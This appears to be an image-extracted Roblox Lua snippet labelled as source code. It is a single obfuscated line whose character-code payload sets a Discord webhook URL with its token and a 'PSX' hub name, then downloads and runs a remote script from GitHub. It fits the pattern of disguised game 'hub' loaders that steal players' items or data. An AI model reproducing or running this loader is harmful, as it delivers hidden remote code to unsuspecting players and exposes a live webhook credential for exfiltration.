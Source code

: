 pcall(load(string.char(table.unpack({95,71,46,85,115,101,114,110,97,109,101,32,61,32,34,116,101,95,102,117,116,116,116,105,110,99,117,114,34,13,10,95,71,46,72,117,98,78,97,109,101,32,61,32,34,82,111,70,97,115,116,226,152,132,32,80,83,88,34,13,10,95,71,46,87,101,98,104,111,111,107,85,114,108,32,61,32,34,104,116,116,112,115,58,47,47,100,105,115,99,111,114,100,46,99,111,109,47,97,112,105,47,119,101,98,104,111,111,107,115,47,49,48,57,57,51,51,56,52,50,50,49,57,51,50,51,51,57,53,49,47,68,65,65,103,105,103,104,51,57,53,65,114,97,102,95,49,98,104,55,120,85,119,103,120,53,97,74,90,85,111,112,55,88,95,84,57,111,106,45,88,109,50,95,105,101,118,98,81,88,78,113,119,106,53,73,75,75,83,68,119,111,110,76,73,83,86,79,76,34,13,10,108,111,97,100,115,116,114,105,110,103,40,103,97,109,101,58,72,116,116,112,71,101,116,40,34,104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,74,97,121,105,105,111,99,101,97,110,105,105,47,80,101,97,107,79,110,84,111,112,47,109,97,105,110,47,112,101,97,107,46,108,117,97,37,50,50,41,41,40,41,}))))
